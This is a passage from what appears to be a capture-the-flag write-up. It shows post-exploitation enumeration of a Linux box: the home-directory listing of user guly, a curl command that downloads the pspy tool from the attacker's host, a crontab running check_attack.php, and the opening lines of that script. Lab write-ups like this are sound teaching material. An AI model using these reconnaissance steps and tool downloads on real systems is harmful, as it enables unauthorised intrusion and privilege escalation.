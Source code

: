 ```bash

╔══════════╣ Files inside others home (limit 20)
/home/guly/check_attack.php
/home/guly/crontab.guly
/home/guly/.bash_logout
/home/guly/.bash_profile
/home/guly/.bashrc
/home/guly/user.txt

╔══════════╣ Mails (limit 50)
  5740    4 -rw-rw----   1 guly     mail         2941 Jul  2  2019 /var/mail/guly
  5740    4 -rw-rw----   1 guly     mail         2941 Jul  2  2019 /var/spool/mail/guly

```

Let’s also execute pspy to see what cron jobs are running. Errored out:

```bash
curl -o pspys http://10.10.16.7:8001/pspy64s_2018
```

We saw some interesting files in guly’s home dir. Let’s see if we have permissions to access his files in his home dir:

```bash
ls -al /home/guly

total 28
drwxr-xr-x. 2 guly guly 4096 Sep  6  2022 .
drwxr-xr-x. 3 root root   18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root    9 Sep  7  2022 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly   18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly  193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly  231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root  782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root   44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly   33 Sep 26 14:30 user.txt

```

The crontab and php file stood out. Let’s check crontab.guly first:

```bash
cd /home/guly
cat crontab.guly

*/3 * * * * php /home/guly/check_attack.php
```

Every 3 minutes, the system runs the PHP script `check_attack.php` using the system’s PHP interpreter. It runs under the **crontab owner’s privileges** (in this case, the user `guly`).

### check_attack.php analysis

```bash
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
	$msg='';
```